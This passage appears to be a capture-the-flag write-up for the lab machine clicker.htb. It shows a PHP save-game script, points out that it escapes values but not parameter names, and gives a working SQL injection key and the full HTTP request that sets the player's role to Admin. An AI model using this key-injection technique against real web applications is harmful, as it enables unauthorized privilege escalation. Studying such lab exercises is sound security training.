 ```php
<?php
session_start();
include_once("db_utils.php");

if (isset($_SESSION['PLAYER']) && $_SESSION['PLAYER'] != "") {
	$args = [];
	foreach($_GET as $key=>$value) {
		if (strtolower($key) === 'role') {
			// prevent malicious users to modify role
			header('Location: /index.php?err=Malicious activity detected!');
			die;
		}
		$args[$key] = $value;
	}
	save_profile($_SESSION['PLAYER'], $_GET);
	// update session info
	$_SESSION['CLICKS'] = $_GET['clicks'];
	$_SESSION['LEVEL'] = $_GET['level'];
	header('Location: /index.php?msg=Game has been saved!');
}
?>
```

I could not use `role` as a key. But I look back at the code that built the query.

```php
$setStr .= $key . "=" . $pdo->quote($value) . ",";
```

The value was escaped, but not the key. So I could build a key that contains some SQL injection. If I sent this key:

```
role='Admin',nickname
```

It would end up with a query like this one.

```sql
UPDATE players SET click='2',level='3',role='Admin',nickname='Pwn' WHERE username = :player
```

I had to make sure the equal sign was escaped correctly.

```http
GET /save_game.php?clicks=2&level=3&role%3d'Admin',nickname=Pwn HTTP/1.1
Host: clicker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://clicker.htb/play.php
Cookie: PHPSESSID=qreneo6dl74qicu33bq4jv1o5l
Upgrade-Insecure-Requests: 1
```
